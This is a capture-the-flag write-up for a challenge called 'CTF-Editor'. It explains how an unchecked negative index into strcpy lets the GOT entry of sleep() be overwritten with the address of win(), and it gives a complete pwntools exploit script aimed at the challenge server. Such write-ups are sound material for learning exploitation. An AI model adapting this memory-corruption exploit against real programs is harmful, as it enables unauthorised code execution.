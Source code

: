 # CTF-Editor

Author: v10l3nt

## Description

We built a CTF category editor to help with the religious debate over CTF categories. Hopefully this debate never ends.

0.cloud.chals.io:22354

## Overview

The binary is vulnerable to partial overwrite into the PLT due to `strcpy()` allowing the user to write anywhere in memory.

`strcpy(&categories + (long)category * 0xf,new_name);`

There is no bounds checking on the value of `(long)category` which allows for a user to input a number that will write outside the bounds of `&categories`.

By overwriting the PLT entry of `sleep()` to the address of `win()`, when `sleep()` is called after sending a category name of `recon`, the `win()` function will be called and it will print the flag.

The reason that `sleep()` must be used, is because we cannot overwrite any of the other functions, because doing so would cause a SIGSEGV due to an invalid address for those functions.

## Solution

```python
from pwn import *
import math

binary = args.BIN
context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF(binary)
r = ROP(e)

gs = '''
b vuln
c
'''

def start():
    if args.GDB:
        return gdb.debug(e.path, gdbscript=gs)
    elif args.REMOTE:
        return remote('0.cloud.chals.io', 22354)
    else:
        return process('./ctf_editor')

p = start()

# Overwrite exit to call win()

win = e.sym['win']
cat = e.sym['categories']
ext = e.got['sleep']

offset = str(math.ceil((cat - ext)/15))
overwrite = b'A'*int(15*(int(offset) - (cat - ext)/15)) + p64(win)

p.recvuntil(b'>>> ')
p.sendline(b'Y')
p.recvuntil(b'>>> ')
p.sendline(b"-"+offset.encode('utf-8'))
p.sendline(overwrite)

p.recvuntil(b'>>> ')
p.sendline(b'Y')
p.recvuntil(b'>>> ')
p.sendline(b'1')
p.recvuntil(b'>>> ')
p.sendline(b'recon')

p.interactive()
```

